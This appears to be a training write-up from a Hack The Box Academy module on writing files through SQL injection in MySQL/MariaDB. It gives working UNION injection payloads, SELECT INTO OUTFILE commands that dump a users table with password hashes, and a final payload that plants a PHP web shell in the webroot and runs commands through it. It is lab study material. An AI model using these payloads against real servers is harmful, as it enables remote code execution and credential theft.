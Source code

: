 # Writing Files

While it is possible to write to files via injection, modern DBMSes are much more restrictive in which users are able to modify file contents due to the fact that attackers could potentially write a web shell via remote server to execute code and compromise the integrity of the server.

In order to gain access to file writing on a database server, you will need to meet the following conditions:

- The user must have FILE privileges
- secure_file_priv must be disabled globally
- Write access to the indicated location on the back-end

In the case of this module, you know that you already have FILE privileges. Now you will need to determine if the database itself has the privilege.

#### secure_file_priv

The secure_file_priv variable determines where files can be read and written from. 

- If the file has an empty value, you know you have the ability to read any file within the file system.

- If a directory is designated within this file, you can only read from this specified file.

- If the value is NULL, this means that you cannot read or write any file.

MariaDB sets the variable to empty by default, allowing you to modify files if you have FILE privileges.

MySQL uses /var/lib/mysql-files as the default folder. This means that by default, you cannot read or write to files anywhere in the system. 

You can user the following query to find the value of the variable in MySQL:

>SHOW VARIABLES LIKE 'secure_file_priv';

You would need to implement an injection to achieve this in our case. You will need to use the UNION and SELECT statements to achieve this. All the variables you need are stored within INFORMATION_SCHEMA database. The global variables are stored in a table named global_variables which has two columns, variable_name and variable_value.

These two columns must be selected from the INFORMATION_SCHEMA database. It should be noted that there are hundreds of global variables in the default MySQL configurations and you do NOT want to retrieve all of them. The results can be filtered so that only the secure_file_priv variable is shown via the WHERE clause.

Here is the SQL query that would achieve this:

>SELECT variable_name, variable_value FROM information_schema.global_variables WHERE variable_name="secure_file_priv"

Below is the UNION injection that you would need to use. It delivers a payload and adds columns 1 and 4 containing junk entries:

>cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables WHERE variable_name="secure_file_priv"-- -

In our example, this shows that the file value is empty, meaning that files can be read and written to with FILE permissions:

### SELECT INTO OUTFILE

The SELECT INTO OUTFILE statement is used to write data from SELECT queries into files. This is often used to export output into the file we have designated.

Below is an example that would save the output from the 'users' table into the /tmp/credentials file:

>SELECT \* FROM users INTO OUTFILE '/tmp/credentials';

Now you can go back to the back-end server and cat the file to view it's contents:

>cat /tmp/credentials

This will reveal the hash values for the passwords of the admin and newuser accounts.

You can directly SELECT strings into these files which allow us to write arbitrary file content to the back-end server.

You can use the following query to test this:

>SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';

Now if you cat the file a second time, you will see the string you submitted:

>cat /tmp/test.txt

Then you can assess the read and write privileges and other information about this file with the following:

>ls -la /tmp/test.txt

This will reveal that the file creation was successful and that it is owned by the MySQL user you are operating under.

### Writing with Injections

You can use the following query to write a text file to the webroot to verify permissions:

>SELECT 'file written successfully!' INTO OUTFILE '/var/www/html/proof.txt'

If you wanted to write to the web shell, you would need to know the base web directory for the web server - also known as the web root. You can find this by using load_file to determine the server configuration. 

In the case of Apache servers, this is stored in /etc/apache2/apache2.conf.

For Nginx, this is located in /etc/nginx/nginx.conf.

IIS configuration is located in %WinDir%\System32\Inetsrv\Config\ApplicationHost.config.

If none of these are working, you can do an online search to seek out additional configuration locations.

Fuzzing can be used to scan locations and attempt file writing to different potential web roots by using Linux and Windows wordlists.

If all else fails, you can attempt to use server error output to try and discover the base web directory.

Here is an example injection that would achieve the above for our module:

>cn' UNION SELECT 1, 'file written successfully!', 3, 4 INTO OUTFILE '/var/www/html/proof.txt'-- -

When this is submitted, no errors are returned and the query has been successfully injected. You can now check the file proof.txt to confirm it's existence. In the output you can see that the numbers 1, 3, and 4 are included because all junk data we submitted was written to the file. If you wanted to remove the numbers in output, you could replace them with a set of double quotes ("").

### Web Shell

Now you can write a PHP web shell to the webroot folder with the following PHP command, which will execute directly to the back-end:

>\<?php system($\_REQUEST\[0]); ?>', "", "" INTO OUTFILE '/var/www/html/shell.php'-- -

This will return no errors meaning that we likely were able to write to the file.

You can verify the successful write by examining the /shell.php file and executing commands via the 0 parameter by using the ?0=id snippet from the URL.

This will output the id confirming that we are able to execute code and operate as the www-data user.

### Related:
- [Hack The Box Academy](https://academy.hackthebox.com/ "Hack The Box Academy Home page")
- [HTB Writing Files via Injection](https://academy.hackthebox.com/module/33/section/793 "HTB Writing Files via Injection")